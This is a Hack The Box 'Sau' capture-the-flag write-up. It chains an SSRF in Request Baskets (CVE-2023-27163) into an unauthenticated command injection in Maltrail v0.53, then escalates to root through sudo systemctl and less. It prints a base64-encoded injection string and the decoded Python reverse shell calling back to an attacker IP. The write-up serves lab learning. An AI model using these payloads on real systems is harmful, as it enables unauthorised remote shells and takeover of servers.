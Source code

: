 ```yaml
---
layout: page
title: Sau
img: assets/img/writeups/hackthebox/Sau/Sau_logo.png
importance: 1
category: hackthebox
related_publications: einstein1956investigations, einstein1950meaning
---
```


## Foothold
Port scanning - 22, 80 (filtred?), 55555
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_nmap.png" title="example image" class="img-fluid rounded z-depth-1" %}

Let's take a look at unknown service. We will meet the Request Basket - web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_web.png" title="example image" class="img-fluid rounded z-depth-1" %}

Directory and subdomain bruteforcing give nothing. Since we have an open source application - a good practice to discover [github](https://github.com/darklynx/request-baskets) project.

Remember version (v 1.2.1) and some googling helps to identify SSRF CVE-2023-27163.

## User
CVE-2023-27163 vulnerability allows attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.

Time to recall a filtered port at 80 port and all solution be obvious. Exploiting SSRF from service on 55555 port can give access to 80 filtered port.

To exploit that SSRF, set proxy settings in web application to forward traffic to 0.0.0.0:80. POST request with JSON body we looks like that:
```json
{
	"forward_url": "http://0.0.0.0:80", 
	"proxy_response": true, 
	"insecure_tls": false, 
	"expand_path": false, 
	"capacity": 10
}
```

After updating proxy settings web server forward traffic to filtered port. It gives an opportunity to discover information about new service. 

Service on filtered port- [Maltrail](https://github.com/stamparm/maltrail) v0.53. 
  
The Internet whispers that the application with this version is subject to unauthenticated OS command injection.

The `subprocess.check_output` function in mailtrail/core/http.py contains a command injection vulnerability in the `params.get("username")`parameter.

An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication.

My exploit request with reverse shell looked like:

```
username=;`echo+ZXhwb3J0IFJIT1NUPSIxMC4xMC4xNC4xMzQiO2V4cG9ydCBSUE9SVD05MDAwO3B5dGhvbjMgLWMgJ2ltcG9ydCBzeXMsc29ja2V0LG9zLHB0eTtzPXNvY2tldC5zb2NrZXQoKTtzLmNvbm5lY3QoKG9zLmdldGVudigiUkhPU1QiKSxpbnQob3MuZ2V0ZW52KCJSUE9SVCIpKSkpO1tvcy5kdXAyKHMuZmlsZW5vKCksZmQpIGZvciBmZCBpbiAoMCwxLDIpXTtwdHkuc3Bhd24oIi9iaW4vYmFzaCIpJw|base64+-d|bash`
```

Where Base64 code is default python reverse shell:
```bash
export RHOST="10.10.14.183";
export RPORT=9000;
python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

Handling shell with netcat will give us an user access to machine.

Here we got an user flag!
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_user.png" title="example image" class="img-fluid rounded z-depth-1" %}

## Root
```bash
sudo -l
```
Puma user can use systemctl with sudo privileges.
{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc2.png" title="example image" class="img-fluid rounded z-depth-1" %}

Output of that sudo command gets piped automatically through 'less'. It can give opportunity to execute commands in 'less' command line.
```less
!sh
```
It means, user have ability to spawn root shell and get second flag.

{% include figure.html path="assets/img/writeups/hackthebox/Sau/sau_privesc.png" title="example image" class="img-fluid rounded z-depth-1" %}
